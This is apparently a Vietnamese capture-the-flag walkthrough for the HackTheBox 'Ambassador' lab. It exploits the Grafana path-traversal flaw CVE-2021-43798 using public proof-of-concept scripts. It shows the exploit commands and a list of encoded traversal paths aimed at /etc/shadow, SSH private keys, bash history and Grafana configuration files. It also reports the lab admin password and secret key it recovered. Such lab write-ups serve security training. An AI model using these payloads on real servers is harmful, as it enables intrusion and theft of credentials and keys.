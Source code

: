 Kết luận: **có thể khai thác lỗ hổng CVE-2021-43798 để tìm kiếm các thông tin liên quan.**

# 3. Khai thác lỗ hổng :

## Đối với Grafana (*v8.2.0 (d7f71e9eae) :*

Để khai thác lỗ hổng thì mình dùng poc của [pedrohavay](https://github.com/pedrohavay) để tạo payload và dùng để lấy các thông tin có liên quan, đường link sử dụng bên dưới :

- [https://github.com/hupe1980/CVE-2021-43798](https://github.com/hupe1980/CVE-2021-43798)

Quá trình thực hiện thì git clone đường dẫn về rồi cài những thành phần yêu cầu khác bằng pip (hướng dẫn có trên trang github của tác giả).

```
git clone https://github.com/hupe1980/CVE-2021-43798
cd CVE-2021-43798
```

sử dụng bằng cách dùng câu lệnh sau :

```bash
python3 exploit.py http://127.0.0.1:3000 /etc/passwd
python3 exploit.py http://127.0.0.1:3000 /appdata.db --output appdata.db
```

Để tìm kiếm các đường dẫn khác thì có thể tham khảo poc khác của [https://github.com/pedrohavay/exploit-grafana-CVE-2021-43798](https://github.com/pedrohavay/exploit-grafana-CVE-2021-43798), trong các tập thì có tập paths.txt chứa các đường dẫn có thể khai thác được như :

```bash
┌──(kali㉿kali)-[~/Desktop/hackthebox/Ambassador /exploit-grafana-CVE-2021-43798]
└─$ cat paths.txt 
/..%2f..%2f..%2f..%2f..%2fconf/defaults.ini
/..%2f..%2f..%2f..%2f..%2fconf/grafana.ini
/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/grafana/grafana.ini
/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/grafana/defaults.ini
/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd
/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/shadow
/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fhome/grafana/.bash_history
/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fhome/grafana/.ssh/id_rsa
/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2froot/.bash_history
/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2froot/.ssh/id_rsa
/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fusr/local/etc/grafana/grafana.ini
/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fvar/lib/grafana/grafana.db
/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fproc/net/fib_trie
/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fproc/net/tcp
/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fproc/self/cmdline
```

sử dụng đường dẫn là /etc/grafana/grafana.ini 

→ tìm được tài khoản đăng nhập cho admin là “messageInABottle685427”.

→ tìm được “secret_key = SW2YcwTIb9zpOOhoPsMm”.
